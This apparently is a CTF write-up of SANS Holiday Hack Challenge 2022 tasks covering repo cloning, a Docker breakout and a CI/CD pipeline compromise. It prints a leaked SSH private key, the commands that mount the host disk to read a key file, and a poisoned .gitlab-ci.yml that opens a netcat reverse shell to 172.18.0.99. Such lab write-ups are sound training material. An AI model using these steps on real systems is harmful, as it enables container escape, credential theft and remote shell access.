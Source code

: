 ```yaml
---
title: "Holiday Hack Challenge 2022: 2 - Recover the Elfen Ring"
date: 2023-01-08 08:00:00 +0800
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [dev]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**SecDevOps and Supply Chain Attacks**

Identify malicious packages and then attack CI/CD processes to escape a container.

## Clone with a Difference

>Difficulty: 1/5
>
>Clone a code repository. Get hints for this challenge from Bow Ninecandle in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/783a12b31fd9115346d46f98b17b138926239c970b672753daf2d3badfb008ce.png)  

```bash
$ git clone git@haugfactory.com:asnowball/aws_scripts.git
Cloning into 'aws_scripts'...
The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
git@haugfactory.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

Found public repo at <https://haugfactory.com/orcadmin/aws_scripts>.

```bash
$ git clone https://haugfactory.com/orcadmin/aws_scripts
Cloning into 'aws_scripts'...
warning: redirecting to https://haugfactory.com/orcadmin/aws_scripts.git/
remote: Enumerating objects: 64, done.
remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
Unpacking objects: 100% (64/64), 23.83 KiB | 1.83 MiB/s, done.

$ cd aws_scripts && ls
README.md     container.py        ec2-instances.py  network.py     security.py
analytics.py  create_instance.py  iam.py            put_policy.py  send_ssm.py
compute.py    debug_instances.py  inventory.py      sample.json

$ tail -1 READMEmd
If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.

$ runtoanswer
Read that repo!
What's the last word in the README.md file for the aws_scripts repo?
> maintainers
Your answer: maintainers

Checking......
Your answer is correct!
```

## Prison Escape

>Difficulty: 3/5
>
>Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

![image](/assets/img/holiday_hack_challenge_2022/f51e1d8d89aa8b157c10f430b9bf38a8dd2a59eeb5af7c6457027e8c91af94be.png)  

Observed the presence of `.dockerenv` file in `/`.

![image](/assets/img/holiday_hack_challenge_2022/7552d1302c53232df373f5c2f495ac6faf0a7bb375e8441e9727dad48b676ba6.png)  

Researched on docker breakout. Reference: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>

Performed method described in `Mounting Disk - Poc1`.

Confirmed that root privileges can be obtained.

```bash
$ sudo su
# whoami
root
```

List the partition tables for the specified devices.

```bash
# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Create a mount point.

```bash
# mkdir /mnt/breakout
```

Mount disk to mount point.

```bash
# mount /dev/vda /mnt/breakout
```

Browse directories.

```bash
# cd /mnt/breakout/home && ls
jailer
```

Find flag.

```bash
# cd .ssh
# cat jail.key.priv
```

Hex string found: `082bb339ec19de4935867`

![image](/assets/img/holiday_hack_challenge_2022/26322faf076216bec9b87dc2e7053527bfe2d5b1836934ff19f9a07b50e12b06.png)  

## Jolly CI/CD

>Difficulty: 5/5
>
>Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/995469c9d24db62543077846c99d25fcd2c542b03eee2cd0c9bfcc156fa6ecc2.png)  

Performed the following steps to obtain openssh private key for impersonation purpose.

```bash
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git log
--Redacted--
whoops
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
--Redacted--

$ git show abdea0ebb21b156c01f7533cea3b895c26198c98
--Redacted--
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
--Redacted--
```

Thought through the solution and craft command list.

```
$ mkdir .ssh

$ cd .ssh

$ touch id_ed25519

$ echo -e '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==\n-----END OPENSSH PRIVATE KEY-----' > id_ed25519

$ chmod 400 id_ed25519

$ cd ..

$ eval "$(ssh-agent -s)"

$ ssh-add

Test connection:
$ ssh -T git@gitlab.flag.net.internal

$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git config --global user.email “sporx@kringlecon.com”

$ git config --global user.name “knee-oh”

$ nano .gitlab-ci.yml

Replace the script in .gitlab-ci.yml with the following command:
nc 172.18.0.99 8888 -e /bin/bash

$ git commit -am “payload”

$ git push && nc -lvp 8888

ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal

cd /

ls -la

cat flag.txt
```

Reverse shell established.

![image](/assets/img/holiday_hack_challenge_2022/12b087993f68131788566d4c473969a5bb7aa830f92f1f67adffafd10fb2993a.png)  

Obtained a shell via SSH.

![image](/assets/img/holiday_hack_challenge_2022/df51a3c91f09b19e34151388dbb33c665faba2ad4e3d306d5a1bfdfe11cc8c84.png)  

Found `flag.txt`.

![image](/assets/img/holiday_hack_challenge_2022/94c8c200ccbc83474d22a5158c7ddda79c860e32ecf483043900f80470623e4a.png)  

Show `flag.txt` contents.

ANS: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

![image](/assets/img/holiday_hack_challenge_2022/72826abcbba96d2ea0384d8575b861c92bf1f3a0b42038805709403fa643bc2e.png)  

Pondering further: Is the intended solution SSH? To use rsync requires knowledge of the source and destination. How to determine where `flag.txt` is stored without browsing?

Original script contents.

```
script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

Obtained Elfen Ring.